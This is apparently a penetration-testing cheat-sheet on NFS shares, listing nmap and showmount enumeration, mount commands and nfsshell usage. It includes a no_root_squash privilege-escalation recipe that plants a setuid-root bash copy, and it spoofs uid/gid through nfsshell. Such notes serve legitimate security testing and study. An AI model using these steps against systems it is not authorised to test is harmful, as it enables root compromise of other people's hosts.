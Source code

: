 ## Configuration files
```
/etc/exports
/etc/lib/nfs/xtab
```

## Enumeration
```
nmap -sV --script=nfs-* 192.168.44.133
nmap -sV --script=nfs-ls 192.168.44.133  //same result as rpcinfo
nmap -sV --script=nfs-* 192.168.44.133
```

Enumerate NFS shares:
```
showmount -e hostname/ip_address
```

Mount NFS shares:
```
mount -t nfs ip_address:/directory_found_exported /local_mount_point
mount -t nfs 192.168.1.72:/home/vulnix /tmp/mnt -nolock
```

`/etc/exports` file contains configurations and permissions of which folders/file systems are exported to remote users

## Root Squashing

> https://haiderm.com/linux-privilege-escalation-using-weak-nfs-permissions/


poty 35



Root squashing - Prevents having root access to remote root users connected to NFS volume. Remote root users are assigned a user "nfsnobody" when connected.

`no_root_squash` - Gives the remote user root access to the connected system

With limited user account: `cp /bin/bash /shared`
Then mount the share: `mount -t nfs server:/shared /mnt/` and run `chown root:root bash && chmod u+s bash`
Run the file with limited user account: `/shared/bash`

## Tools

- NFS shell - Provides user level access to an NFS server, over UDP or TCP, supports source routing and "secure" (privileged port) mounts - [https://github.com/NetDirect/nfsshell](https://github.com/NetDirect/nfsshell)
```
nfsshell> host <ip>
nfsshell> mount <name of the share>
nfsshell> gid 1000
nfsshell> uid 1000
nfsshell> put example
nfsshell> chmod 0777 example
```

## References

### New References
- http://linuxadministrative.blogspot.com/2014/09/showmount-command-examples.html
- Exploiting Network File System, (NFS), shares: http://www.vulnerabilityassessment.co.uk/nfs.htm
